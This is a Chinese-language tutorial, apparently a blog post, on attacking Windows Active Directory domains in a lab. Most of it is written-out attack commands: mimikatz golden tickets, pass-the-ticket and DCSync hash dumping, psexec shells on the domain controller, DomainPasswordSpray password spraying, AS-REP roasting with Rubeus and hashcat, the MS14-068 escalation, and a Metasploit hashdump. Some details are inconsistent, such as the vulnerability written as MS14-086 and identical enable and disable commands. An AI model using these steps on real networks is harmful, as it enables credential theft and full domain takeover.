



域内攻击
本文介绍一些域内攻击的工具以及方法。
攻击机：kali：192.168.43.30
客户机DC：win2012：192.168.8.211
客户机：win7： 182.168.8.57
以下有关在win7复现没有成功的，在win2008上复现成功，没有放置贴图。
1.kerberos攻击
1.使用mimikatz的黄金票据+dcsync获得域密码
dcsync: mimikatz中的功能，可以有效地“假冒”一个域控制器，并可以向目标域控制器请求帐户密码数据
首先伪造一个黄金票据
kerberos: :golden /admin:Administrator /domain:<域名> /sid:<域SID> /krbtgt:<KRBTGT Hash NTLM> /ticket: Administrator.kiribi
在使用ptt进行票据攻击：Kerberos::ptt Administrator.kiribi
此时已得到域控完整权限，可以使用psexec获得域控cmd权限：psexec [\\域控ip](file://域控ip) cmd

也可以执行获取指定用户的hash值：lsadump::dcsync /user:用户 /domain:域
记得结束之后完成清楚票据：kerberos::purge
2.域用户、密码枚举
github项目：https://github.com/dafthack/DomainPasswordSpray
DomainPasswordSpray是用PowerShell编写的工具，用于对域用户执行密码喷洒攻击。默认情况下，它将利用LDAP从域中导出用户列表，然后扣掉被锁定的用户，再用固定密码进行密码喷洒
1.枚举用户
在power shell中导入脚本:Import-Module .\DomainPasswordSpray.ps1
再执行以下内容进行用户名枚举
1 | Get-DomainUserList -Domain 域名 -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt |
2.枚举密码
相当于指定密码进行爆破.
执行以下命令进行密码枚举：Invoke-DomainPasswordspray -Domain 域名 -Password 密码 ASD -OutFile pass.txt
3.AS-REP-Roasting
原理AS-REP Roasting是一种对用户账号进行离线爆破的攻击方式。但是该攻击方式利用比较局限，因为其需要用户账号设置 “Do not require Kerberos preauthentication(不需要kerberos预身份验证) “ 。而该属性默认是没有勾选上的。
预身份验证是Kerberos身份验证的第一步(AS_REQ & AS_REP)，它的主要作用是防止密码脱机爆破。默认情况下，预身份验证是开启的，KDC会记录密码错误次数，防止在线爆破。关于 AS_REQ & AS_REP：域内认证之Kerberos协议详解。
当关闭了预身份验证后，攻击者可以使用指定用户去请求票据，此时域控不会作任何验证就将 TGT票据 和 该用户Hash加密的Session Key返回。因此，攻击者就可以对获取到的 用户Hash加密的Session Key进行离线破解，如果破解成功，就能得到该指定用户的密码明文。
攻击条件
- 域用户设置了 “ Do not require Kerberos preauthentication(不需要kerberos预身份验证) ”
- 开启命令
Import-Module .PowerView.ps1 Set-DomainObject -Identity testb -XOR @{userAccountControl=4194304} -Verbose
- 关闭命令
Import-Module .PowerView.ps1 Set-DomainObject -Identity testb -XOR @{userAccountControl=4194304} -Verbose
- 开启命令
- 需要一台可与KDC进行通信的主机/用户
攻击方式
1.linux下可以使用GetNPUsers.py这款工具进行破解.
2.windows下使用Rubeus.exe进行破解(需要.net3.5)
获得一个hashes.asreproast文件：
1 | Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast |
得到hashes.asreproast文件后可以使用hashcat或者john进行破解：
1 | hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt |
3.powershell
工具
powerview.ps1：https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1
ASREPRoast.ps1：https://github.com/HarmJ0y/ASREPRoast
使用powerview.ps1查找域中设置了 “不需要kerberos预身份验证” 的用户
1 | Import-Module .\powerview.ps1 |
使用ASREPRoast.ps1获取AS-REP返回的Hash
1 | Import-Module .\ASREPRoast.ps1 |
将hash.txt里面的除Hash字段其他的都删除，复制到hashcat目录下，并且修改为hashcat能识别的格式，在$krb5asrep后面添加$23拼接。
1 | hashcat64.exe -m 18200 hash.txt pass.txt --force |
2.域内提权
Ms14-086（支持到win2012,但是2012不稳定）
通过是否打补丁(kb3011780)来判断是否存在漏洞
生成一个文件ccache文件：MS14-068.exe -u 用户名@域名 -p 明文密码 -s <userSid> -d 域控ip
但是在win7上使用时会报错，可能是我域内环境配置有问题，在win2008时没有问题。

用mimikatz进行攻击：kerberos::ptc ccache文件
此时当前用户就是域管理员用户
3.域hash
需要域控权限
1.mimikatz抓取
可以使用mimikatz生成一个日志记录信息（会在当前目录下生成一个mimikatz.txt,之后操作以及结果都会被记录在日志中）:log
抓取域内用户的名称和hash：lsadump::dcsync /domain:域控名 /all /csv
或者使用：lsadump::lsa /inject
2.msf抓取
先反弹一个会话
利用domain_hashdump模块进行抓取

由于当前是32bits的载荷运行在一个64bits的系统上，所以需要进行进程迁移

之后再次运行hashdump，会得到一个数据库存储域内所有用户的信息

进行破解即可